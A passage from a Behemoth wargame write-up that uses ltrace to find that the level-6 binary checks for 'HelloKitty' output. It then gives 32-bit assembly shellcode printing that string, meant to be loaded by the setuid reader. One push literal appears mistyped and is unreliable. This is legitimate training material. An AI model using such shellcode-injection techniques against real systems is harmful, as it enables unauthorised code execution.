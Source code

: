 And this is the ```ltrace``` of the two:

```
behemoth6@behemoth:/behemoth$ ltrace ./behemoth6_reader
__libc_start_main(0x80485ab, 1, 0xffffd774, 0x80486b0 <unfinished ...>
fopen("shellcode.txt", "r")                                     = 0
puts("Couldn't open shellcode.txt!"Couldn't open shellcode.txt!
)                            = 29
+++ exited (status 0) +++
behemoth6@behemoth:/behemoth$ ltrace ./behemoth6
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486d0 <unfinished ...>
popen("/behemoth/behemoth6_reader", "r")                        = 0x804b008
malloc(10)                                                      = 0x804b0b8
fread(0x804b0b8, 10, 1, 0x804b008)                              = 1
--- SIGCHLD (Child exited) ---
pclose(0x804b008)                                               = 0
strcmp("Couldn't o", "HelloKitty")                              = -1
puts("Incorrect output."Incorrect output.
)                                       = 18
+++ exited (status 0) +++
```

Looks like the second executable compares the output of the first to ```HelloKitty```. So we will have to write a file ```shellcode.txt``` containing the shellcode used to print the string ```HelloKitty```.
```
 BITS 32
 global main
 
 main:
    	push 000007974 ; "ty"     
	push 0x74694b6f ; "oKit"
	push 0x6c6c6548 ; "Hell"
	mov eax, 4 ; write syscall
	mov ebx, 1 ; stdout
	mov ecx, esp ; address of "HelloKitty"
	mov edx, 10 ; size of "HelloKitty"
	int 0x80 ; kernel tap
	
	mov eax, 1 ; exit syscall
	xor ebx, ebx ; exit(0)
	int 0x80 ; kernel tap
```
This is the shellcode. Proof it works:
```
behemoth6@behemoth:/tmp/me2$ nasm -f elf32 shellcode.s -o shellcode.o
behemoth6@behemoth:/tmp/me2$ ld -melf_i386 shellcode.o -o shellcode
ld: warning: cannot find entry symbol _start; defaulting to 0000000008048060
behemoth6@behemoth:/tmp/me2$ ./shellcode
HelloKitty
```

Alright, now we will write the shellcode into ```shellcode.txt``` and run the executable.

